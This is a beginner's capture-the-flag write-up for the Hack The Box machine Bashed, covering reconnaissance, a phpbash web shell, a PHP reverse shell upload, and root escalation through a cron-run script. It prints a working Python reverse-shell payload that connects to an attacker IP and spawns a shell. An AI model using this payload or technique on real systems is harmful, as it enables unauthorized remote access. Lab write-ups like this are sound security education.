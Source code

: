 # Bashed

This is my write-up for the machine Bashed on Hack The Box located at: [https://app.hackthebox.com/machines/Bashed](https://app.hackthebox.com/machines/Bashed).

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walk-through for this machine.
{% endhint %}

basic nmap scan: nmap `10.10.10.68`

![](<../../.gitbook/assets/image (349) (1).png>)

We can see that port 80 (http) is open. I did a deeper nmap scan as well:

![](<../../.gitbook/assets/image (333) (1) (1).png>)

The port open is still the same. Going to the http site, we see the following:

![](<../../.gitbook/assets/image (354) (1).png>)

I got a hint from this that **phpbash** is being used on the server and that I will have to exploit it. I ran **gobuster** to see what directories were available:

![](<../../.gitbook/assets/image (356) (1) (1).png>)

The **uploads** directory was empty, and I believe we will have to upload a shell there. The **php** directory had the following:

![](<../../.gitbook/assets/image (329).png>)

The file was empty when downloaded. Looking in the **dev** folder, I was able to find the shell:

![](<../../.gitbook/assets/image (328) (1).png>)

I was then able to find the user.txt flag:

![](<../../.gitbook/assets/image (357) (1) (1).png>)

Running `sudo -l`, I was able to see the following:

![](<../../.gitbook/assets/image (337) (1).png>)

I then realized I would have to upload a reverse shell to the system. There were two ways in my mind: **netcat** and **pentestmonkey php-reverse-shell**. I tried the **pentestmonkey** option first. I downloaded it from [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), and then edited the IP address to be mine and then was able to upload it using `python3 -m http.server`.&#x20;

![](<../../.gitbook/assets/image (346) (1) (1).png>)

![](<../../.gitbook/assets/image (358) (1) (1).png>)

I then accessed the file on the website and was able to get a reverse shell using **netcat**:

![](<../../.gitbook/assets/image (344) (1).png>)

![](<../../.gitbook/assets/image (347) (1) (1).png>)

After a while of searching for a way to get out of a limited shell, I found [this site](https://guide.offsecnewbie.com/shells), where I saw the following:

![](<../../.gitbook/assets/image (343).png>)

Running that command got me out of the limited shell:

![](<../../.gitbook/assets/image (334) (1) (1).png>)

The `sudo -l` command from before shows us that the user we currently are has access to run commands as **scriptmanager**. A quick Google search showed me that to run a command as another user is to run `sudo -u scriptmanager`. I wanted to get a reverse shell as the **scriptmanager** user:

![](<../../.gitbook/assets/image (360) (1) (1).png>)

![](<../../.gitbook/assets/image (345) (1).png>)

I edited the payload from [this website](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md):

![](<../../.gitbook/assets/image (350) (1) (1).png>)

I get the same error as before:

![](<../../.gitbook/assets/image (355) (1).png>)

When I ran linpeas (not shows in write-up, but uploaded the same way as the reverse shell), I noticed that there was a folder called **scripts**:

![](<../../.gitbook/assets/image (339) (1) (1).png>)

The code writes text to a file. At this point, I was actually lost. I found [this write-up](https://ethicalhacking.sh/posts/hack-the-box-bashed-writeup/) that clarifies that I should have been focused on the cron jobs and noticed that the file is ran by root in the cron job. I changed the original test.txt file by overwriting it by doing the following:

![](<../../.gitbook/assets/image (351) (1).png>)

The content of the file was the following (from the write-up mentioned before):

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.11",8888));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

I was then able to get root (after a minute) and the root flag:

![](<../../.gitbook/assets/image (352) (1).png>)

Going back to see where my mistake was, I should have noticed this in the output of linpeas.sh:

![](<../../.gitbook/assets/image (359) (1) (1).png>)

![](<../../.gitbook/assets/image (348) (1) (1).png>)
